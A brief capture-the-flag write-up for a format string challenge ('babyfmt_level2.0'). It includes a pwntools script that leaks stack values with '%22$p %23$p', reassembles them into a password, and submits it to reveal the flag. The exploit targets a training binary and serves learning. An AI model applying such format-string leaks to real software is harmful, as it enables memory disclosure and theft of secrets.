 # Format String Exploits 2.0

Running the provided executable file, we are tasked to leak the flag from the stack. I solve it using the same method as the previous one, but i think this is not the intended solution. Again, we need to find the offset, which happens to be in `%22$p` and `%23$p`. 

Final exploit:

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyfmt_level2.0")

io = process()

print("===== STARTING EXPLOIT =====")

io.sendline("%22$p %23$p")

io.recvuntil(b'data!\n\n')

password = io.recvline(False).decode()

password = password.split(' ')
password = [p[2:] for p in password]
password = [[chr(int(p[i:i+2], 16)) for i in range(0, len(p), 2)] for p in password]
password = [''.join(reversed(password[i])) for i in range(len(password))]
password = ''.join(password)

io.sendline(password)

io.recvuntil(b'Password!\n')
print(f'Flag: {io.recvline(False)}')
```

Flag:

![[Format String Exploits/images/Level2.0.png]]